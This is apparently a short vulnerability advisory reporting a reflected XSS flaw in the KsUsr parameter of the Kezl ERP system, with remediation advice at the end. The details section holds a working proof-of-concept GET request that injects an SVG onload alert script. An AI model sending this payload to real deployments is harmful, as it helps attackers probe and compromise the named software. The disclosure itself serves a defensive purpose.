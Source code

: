# XSS vulnerability exists in the parameter KsUsr of Kezl ERP enterprise management system

### 企业官网(Enterprise official website)：

www.i-kingdom.com

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?HEAD=uujp6&KsUsr=</script><svg onload=alert('xss17')>//&api=ombi7&arguments=n1vc8&click=euxp4&code=ss5v9&country=zv7z2&email=hxjl1&headimgurl=u8uc0&jsonStr=wyfw8&keywords=c3l47&name=ixt44&newuserid=u2xw0&nickname=w2kv6&p=k4ax8&search=fb9y6&terms=qay82&this=wmi95&unsubscribe_token=hhjy4&w=zg7h0 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```

![18](18.png)

### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

